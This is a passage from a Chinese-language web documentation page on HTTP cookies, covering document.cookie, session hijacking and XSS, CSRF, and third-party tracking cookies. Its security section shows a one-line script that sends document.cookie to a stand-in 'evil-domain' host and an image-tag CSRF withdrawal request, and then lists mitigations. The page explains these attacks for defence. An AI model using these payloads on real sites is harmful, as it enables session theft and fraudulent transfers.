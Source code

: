 #### js通过Document.cookies访问Cookie

通过Document.cookie属性可以来创建新的Cookie，也能够通过该属性来访问未被指定HttpOnly标志的Cookie。

```js
	document.cookie = "yummy_cookie=choco"; 
	document.cookie = "tasty_cookie=strawberry"; 
	console.log(document.cookie); 
	// logs "yummy_cookie=choco; tasty_cookie=strawberry"

```

## 安全

<p class="warning">
	当整个机器暴露在不安全的环境时，切记绝不能通过HTTP Cookie存储、者传输机密或者敏感信息。
</p>

#### 会话劫持和XSS

在Web应用中，Cookie常常用来标记用户和会话授权。因此，如果窃取了Web应用的Cookie，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学进行攻击和利用应用程序的漏洞进行XSS攻击。

```js
	(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly类型的Cookie由于阻止了JavaScript对Cookie进行访问而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）

在这个情况下，有一张并不真实存在的图片（可能是在不安全聊天室或论坛），它实际上是向你的银行服务器发送了提现请求：

```html
	<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的HTML页面是，如果你已经登录了你的银行帐号并且还有效（而且没有其它验证步骤），你的银行里的钱可能会被自动转走。这里有一些方法可以阻止该类事情的发生：

* 对用户输入进行过滤来阻止XSS；
* 任何敏感的操作都应该被确认；
* 用于敏感信息的Cookie只能拥有较短的生命周期；
* 更多的方法可以看OWASP CSRF prevention cheat sheet。

## 追踪和隐私


#### 第三方Cookie

每个Cookie都有与之关联的域（Domain），如果Cookie的域和页面的域是一样的，那么我们称这个Cookie为第一方Cookie（first-party cookie），如果Cookie的域和页面的域不一样，则称之为第三方Cookie（third-party cookie.）。一个页面包含图片或存放在其他域上的资源（如广告横幅）时，第一方的Cookie也只会发送给设置它们的服务器。通过第三方组件发送的第三方Cookie主要用于广告和通过网络进行追踪。这方面可以看谷歌使用的Cookie类型（types of cookies used by Google）。大多数浏览器默认情况下都允许第三方Cookie，但是可以通过附加组件来阻止第三方Cookie（如，EFF的Privacy Badger）。

如果你没有公开你网站上第三方Cookie的使用情况，当它们被发觉时用户对你的信任程度可能受到影响。一个较清晰的声明（比如在隐私策略里面提及）能够减少或消除这些负面影响。在某些国家已经开始对Cookie制订了相应的法规，可以看维基百科上例子cookie statement。

#### 禁止追踪Do-Not-Track
